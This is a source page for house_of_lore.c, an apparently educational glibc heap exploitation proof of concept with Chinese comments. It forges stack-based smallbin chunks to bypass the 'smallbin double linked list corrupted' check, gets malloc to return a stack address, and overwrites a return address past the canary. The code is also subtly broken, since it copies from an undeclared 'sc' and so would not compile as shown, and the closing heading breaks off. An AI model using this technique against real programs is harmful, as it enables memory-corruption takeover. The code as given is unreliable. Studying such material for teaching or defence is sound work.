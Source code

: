 ### house_of_lore.c

```
/*
Advanced exploitation of the House of Lore - Malloc Maleficarum.
This PoC take care also of the glibc hardening of smallbin corruption.
[ ... ]
else
    {
      bck = victim->bk;
    if (__glibc_unlikely (bck->fd != victim)){
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
       set_inuse_bit_at_offset (victim, nb);
       bin->bk = bck;
       bck->fd = bin;
       [ ... ]
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){

  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};
  intptr_t *victim = malloc(100);
  intptr_t *victim_chunk = victim-2;

  stack_buffer_1[0] = 0;
  stack_buffer_1[1] = 0;
  stack_buffer_1[2] = victim_chunk; // victim->bk->fd == vimctim_chunk
  //绕过 __glibc_unlikely (bck->fd != victim) 检查

  stack_buffer_1[3] = (intptr_t*)stack_buffer_2;// 伪造的small_bin1的bk 指向 伪造的small_bin2
  stack_buffer_2[2] = (intptr_t*)stack_buffer_1;//small_bin2->bk-fd == small_bin1， 绕过检查
  
  void *p5 = malloc(1000); // 防止释放victim和top chunk 合并

  free((void*)victim);//放入unsorted bin中

  void *p2 = malloc(1200); //将victim 从unsorted bin 中取下放入small bin 中。

  //------------VULNERABILITY-----------

  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack
  //伪造victim的bk 为stack_buffer_1
  
  //------------------------------------
  void *p3 = malloc(0x90); //分配到victim，
  char *p4 = malloc(0x90); //分配到stack_buffer_1,分配到栈上的地址
  memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary
  //绕过canary，用jackpot函数地址覆盖返回地址
}
```
House of Lore 利用的前提：
